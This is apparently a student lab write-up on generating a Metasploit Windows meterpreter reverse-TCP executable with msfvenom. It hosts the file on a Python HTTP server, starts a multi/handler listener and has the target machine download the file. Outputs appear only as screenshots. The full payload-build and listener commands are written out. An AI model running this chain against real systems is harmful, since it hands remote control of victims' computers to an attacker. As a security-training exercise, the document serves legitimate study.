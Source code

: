 ### PROGRAM:

Find the attackers ip address using ifconfig

### Output:

<img width="639" height="503" alt="Screenshot 2025-09-22 142652" src="https://github.com/user-attachments/assets/dc04194d-48b4-495b-a16e-e5a807ccda2e" />


Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > dharunya.exe```

### Output:
<img width="627" height="255" alt="image" src="https://github.com/user-attachments/assets/d2767749-49eb-41d6-8963-0e31d62b7fa2" />


Start python server ```python3 -m http.server``` 

<img width="623" height="162" alt="image" src="https://github.com/user-attachments/assets/2743fda8-a9e3-4a4c-8228-a5ce39ce012b" />


Invoke msfconsole:

Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```

### Output 

<img width="622" height="442" alt="Screenshot 2025-09-22 094250" src="https://github.com/user-attachments/assets/8f59d4b7-7ded-459a-8fe7-d0e05fb13579" />

<img width="636" height="444" alt="Screenshot 2025-09-22 094304" src="https://github.com/user-attachments/assets/b37f8932-2952-4b1a-a302-70ca0a45c2df" />

Type help or a question mark "?" or help to see the list of all available commands you can use inside msfconsole.

### Output

<img width="897" height="869" alt="Screenshot 2025-09-27 091122" src="https://github.com/user-attachments/assets/0130b1a9-5684-408c-a1e8-2ff2a1fb1ca4" />

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

### Output

<img width="636" height="444" alt="Screenshot 2025-09-22 094304" src="https://github.com/user-attachments/assets/28d309a4-23cc-4fa9-a763-aa69c3b67fc9" />

<img width="881" height="116" alt="Screenshot 2025-09-29 094207" src="https://github.com/user-attachments/assets/734d98ba-8909-4a20-942d-292f3e4534f5" />

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://10.0.2.15/.exe``` The file "dharunya.exe" downloads.
